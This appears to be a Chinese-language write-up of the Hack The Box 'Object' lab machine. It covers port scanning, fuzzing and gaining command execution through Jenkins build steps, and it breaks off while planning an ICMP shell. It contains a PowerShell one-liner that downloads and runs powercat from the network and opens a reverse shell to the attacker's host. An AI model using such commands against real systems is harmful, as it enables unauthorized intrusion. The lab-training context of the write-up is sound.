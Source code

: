 kali 10.10.14.5

靶机 10.10.11.132

[HTB: Object | 0xdf hacks stuff](https://0xdf.gitlab.io/2022/02/28/htb-object.html)

[htb OSCP like object靶机渗透测试（AD域渗透）_哔哩哔哩_bilibili](https://www.bilibili.com/video/BV1uR4y1N7pW/?spm_id_from=333.788&vd_source=f21386f67860beb8cb1ded310d802d3f)

# Recon

## nmap

```bash
└─# nmap -p- --min-rate 4444  10.10.11.132
└─# nmap -p 80,5985,8080 -sCV -oN namp.txt 10.10.11.132
PORT     STATE SERVICE VERSION
80/tcp   open  http    Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Mega Engines
5985/tcp open  http    Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
8080/tcp open  http    Jetty 9.4.43.v20210629
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Jetty(9.4.43.v20210629)
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

绑定 hosts

```bash
└─# echo '10.10.11.132 object.htb' >> /etc/hosts       
```



## 80 Website

<img src=".\图片\Snipaste_2023-09-22_09-03-06.png" alt="Snipaste_2023-09-22_09-03-06" style="zoom:67%;" />

目录爆破：

```bash
feroxbuster -u http://object.htb
```

无事发生

由于得到了域名 `object.htb`



## Virtual Host Fuzz

子域名爆破

```bash
└─#  wfuzz -u http://object.htb -H 'Host: FUZZ.object.htb' -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt --hh 29932
```

啥也没有



## 8080 Jenkins

访问 `http://object.htb:8080` 就跳到了登录页面

<img src=".\图片\Snipaste_2023-09-22_09-06-45.png" alt="Snipaste_2023-09-22_09-06-45" style="zoom:80%;" />

先搜索下 CMS 已知的漏洞：

```bash
└─# searchsploit Jenkins 
```

先放放，再创建一个账号登录进去看看，得到详细版本 `Jenkins 2.317`

[Jenkins (flowus.cn)](https://flowus.cn/bad75f5a-7a7e-4a3a-aadf-1e78746ca8ee)

<img src=".\图片\Snipaste_2023-09-22_09-27-02.png" alt="Snipaste_2023-09-22_09-27-02" style="zoom:80%;" />

显示未授权

# Shell as oliver

就是尝试可以 getshell 的点

<img src=".\图片\Snipaste_2023-09-22_09-53-33.png" alt="Snipaste_2023-09-22_09-53-33" style="zoom:80%;" />

发现可以命令执行

<img src=".\图片\Snipaste_2023-09-22_09-55-23.png" alt="Snipaste_2023-09-22_09-55-23" style="zoom:80%;" />

尝试 反弹 shell

```
powershell IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1'); powercat -c 10.10.14.5 -p 4321 -e cmd
```

结果失败，显示报错，推测可能存在 waf

能绕则绕，绕不过就读取重要配置文件

## ICMP上线

build 成功

<img src=".\图片\Snipaste_2023-09-22_10-58-57.png" alt="Snipaste_2023-09-22_10-58-57" style="zoom:67%;" />

kali 接受到 icmp 请求

<img src=".\图片\Snipaste_2023-09-22_11-00-10.png" alt="Snipaste_2023-09-22_11-00-10" style="zoom:67%;" />

于是可以想到用 ICMP shell

用 nixhang 里的 icmp powershell



不行就读取配置文件，得到账号密码



